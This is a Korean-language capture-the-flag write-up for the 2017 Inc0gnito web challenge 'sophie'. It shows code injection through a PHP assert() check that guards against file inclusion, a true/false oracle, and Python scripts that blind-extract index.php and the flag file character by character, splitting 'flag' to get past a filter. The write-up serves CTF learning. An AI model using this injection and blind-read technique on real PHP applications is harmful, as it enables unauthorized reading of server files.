



==============================================================
[2017_Inc0gnito] [web] sophie
==============================================================

문제내용
==============================================================

Come to my Atelier!
Service available at : http://prob.nagi.moe:9091

문제 풀이
==============================================================

웹 페이지에 접속해서 싱글쿼터를 입력하면 assert 에러가 발생된다.

코드를 보면 strpos('./includes/'.php','php://')===false 라고 되어 있는 것으로 보아 lfi를 차단하기 위한 코드로 보인다.
해당 부분을 or 인젝션을 통해 앞부분을 true로 만들고 뒷부분을 true/false으로 하여 인젝션을 해본다.

.. code-block:: sql

    strpos('./includes/','1')===true || 1==1; //.php','php://')===false

.. code-block:: sql

    strpos('./includes/','1')===true || 1==2; //.php','php://')===false

true/false 조건이 적용되는 것을 확인하였으니, 먼저 index.php 내용을 가져와 보자.
먼저 파일 길이를 확인한다.

.. code-block:: python

    for m in range(1500,2000):
        url = "http://prob.nagi.moe:9091/index.php?page=','1')===true ||" 
        _php_query = "strlen(file_get_contents('/var/www/html/index.php'))==%d"%(m)
        comment = ";//"
        r = requests.get(url+_php_query+comment)
        if "/var/www/html/index.php on line" in r.content:
            result = "querry error"
        elif "I am now learning PHP!" in r.content:
            result = "index page"
        else:
            print m
            break

파일 길이를 확인하였으니, 파일 내용을 가져와보자.

.. code-block:: python

    php_text = ''
    for m in range(0,1528):
        for l in string_list:
            url = "http://prob.nagi.moe:9091/index.php?page=','1')===true ||" 
            _php_query = "substr(file_get_contents('/var/www/html/index.php'),%d,1)=='%s'"%(m,l)
            comment = ";//"

            r = requests.get(url+_php_query+comment)
            if "/var/www/html/index.php on line" in r.content:
                result = "querry error"
            elif "I am now learning PHP!" in r.content:
                result = "index page"
            else:
                print l
                php_text += l
                break

    print php_text

index.php 내용을 확인해보면 flag는 /includes/flag.php에 있다고 한다.
하지만 uri에 flag를 넣게 되면 home 페이지로 리다이렉트 되기 때문에 문자열을 분리하여 우회하여 파일내용을 가져오면 플래그를 확인할 수 있다.

.. code-block:: python

    php_text = ''
    for m in range(0,53):
        for l in string_list:
            url = "http://prob.nagi.moe:9091/index.php?page=','1')===true ||" 
            _php_query = "substr(file_get_contents('./includes/fla'.'g.php'),%d,1)=='%s'"%(m,l)
            comment = ";//"

            r = requests.get(url+_php_query+comment)
            if "/var/www/html/index.php on line" in r.content:
                result = "querry error"
            elif "I am now learning PHP!" in r.content:
                result = "index page"
            else:
                print l
                php_text += l
                break

    print php_text
